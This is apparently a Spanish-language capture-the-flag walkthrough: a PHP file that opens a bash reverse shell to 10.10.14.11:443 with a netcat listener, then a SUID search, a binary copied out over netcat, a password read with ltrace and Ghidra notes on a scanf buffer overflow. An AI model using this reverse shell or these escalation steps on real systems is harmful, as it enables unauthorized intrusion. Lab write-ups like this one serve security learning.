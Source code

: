 Podemos crear un php ejecutable que ejecute en la maquina real, ya que este php se puede ejeuctar al abrir el archivo en el navegador.
```
<?php
		system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
?>
```
>base64 -w 0 test.php; echo

Nos ponemos en escucha
```
nc -lnvp 443
```
[-] ==pwned!==
![[Pasted image 20250218161251.png]]
# Privilege Escalation
Buscamos privilegios en suid
```
find \-perm -4000 2>/dev/null
```
Econtramos un binario /bin/lcars

Nos pasamos el binario
```
nc 10.10.14.11 < lcars
```
Miramos a bajo nivel el binario
```
ltrace ./lcars
```
lanzamos test y vemos que la password es picarda1
![[Pasted image 20250218163629.png]]
Abrimos el binario con ghydra

## Buffer Overflow
### Ghydra
File > New project > Non-shared project > Finish
File > Import File > (binary) > ok

Arrastrar el binario al dragon

Abre el binario y lo analizas por defecto

Symbol Tree > Functions > main > Puedes ver el codigo en C
> Puedes cambiar el nombre de las variables con letra "L"
> Puedes seguir el flujo de las funciones con doble click

Se ve que compara el input del usuario con una variable=picarda1

La función scanf es vulnerable a buffer overflow y podemos observar que el buffer asignado es de 204
![[Pasted image 20250219150901.png]]
![[Buffer Overflow.png]]
RET = EIP = Instructor pointer (Apunta a la siguiente dirección del programa)
